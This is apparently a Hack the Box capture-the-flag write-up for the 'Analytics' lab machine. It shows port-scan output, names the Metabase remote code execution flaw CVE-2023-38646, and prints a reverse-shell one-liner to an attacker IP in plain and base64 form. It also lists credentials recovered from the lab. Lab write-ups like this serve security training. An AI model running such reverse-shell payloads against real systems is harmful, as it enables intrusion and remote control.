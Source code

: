 # Hack the Box - Analytics

```shell
> rustscan -b 1000 -u 5000 -r 0-65535 -a 10.10.11.233 -- -Pn
```
```shell
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/home/superuser/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.11.233:22
Open 10.10.11.233:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 14:18 EDT
Initiating Connect Scan at 14:18
Scanning analytical.htb (10.10.11.233) [2 ports]
Discovered open port 80/tcp on 10.10.11.233
Discovered open port 22/tcp on 10.10.11.233
Completed Connect Scan at 14:18, 0.08s elapsed (2 total ports)
Nmap scan report for analytical.htb (10.10.11.233)
Host is up, received user-set (0.079s latency).
Scanned at 2023-10-11 14:18:03 EDT for 1s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.12 seconds
```

```shell
> rustscan -u 5000 -p 22,80 -a 10.10.11.233 -- -Pn -sCV
```
```shell
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/superuser/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.11.233:22
Open 10.10.11.233:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 14:19 EDT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 14:19
Completed NSE at 14:19, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 14:19
Completed NSE at 14:19, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 14:19
Completed NSE at 14:19, 0.00s elapsed
Initiating Connect Scan at 14:19
Scanning analytical.htb (10.10.11.233) [2 ports]
Discovered open port 80/tcp on 10.10.11.233
Discovered open port 22/tcp on 10.10.11.233
Completed Connect Scan at 14:19, 0.08s elapsed (2 total ports)
Initiating Service scan at 14:19
Scanning 2 services on analytical.htb (10.10.11.233)
Completed Service scan at 14:19, 6.17s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.11.233.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 14:19
Completed NSE at 14:19, 2.51s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 14:19
Completed NSE at 14:19, 0.34s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 14:19
Completed NSE at 14:19, 0.00s elapsed
Nmap scan report for analytical.htb (10.10.11.233)
Host is up, received user-set (0.082s latency).
Scanned at 2023-10-11 14:19:29 EDT for 9s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
|   256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Analytical
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 14:19
Completed NSE at 14:19, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 14:19
Completed NSE at 14:19, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 14:19
Completed NSE at 14:19, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.68 seconds
```

TCP 80 - HTTP
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/a7d29d8f-533f-47b7-9bb8-ea8e88ad51f2)

```http
http://data.analytical.htb/auth/login?redirect=%2F
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/b2c852d7-68d7-4fa9-ae80-2f23bdd66dc6)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/5514d41e-fcac-4f3c-a712-ab91a93c47f7)

Metabase - Remote Code Execution (CVE-2023-38646)
Session Token Leaked
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/b701daa7-c72c-4670-b417-eb345356740a)

Test Command Execution
```shell
python -m http.server 80
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/91e7bbec-50db-44d8-97e7-7b27835991be)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/470a709c-3a69-4aa9-9868-ab9bd8b6c6a7)

Reverse Shell Payload
```shell
bash -c {echo,payload}|{base64,-d}|{bash,-i}
```

Shell Base64 encoded
```shell
> echo "sh -i >& /dev/tcp/10.10.14.23/1337 0>&1" | base64
c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjMvMTMzNyAwPiYxCg==
```

![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/74ceef41-77e9-4af1-aea1-7fdbe072dcc7)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/0ed2a2c7-e3eb-43f1-afd2-edbbcee86ddb)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/9336028c-c5ce-4dd0-a10b-b684258108ef)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/fb9de20d-edbd-4769-9a1c-3abbf94fc677)

```shell
creds: metalytics:An4lytics_ds20223#
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/31231793-fd25-4e45-994b-2623f742f1bd)

Privilege Escalation

Pending!
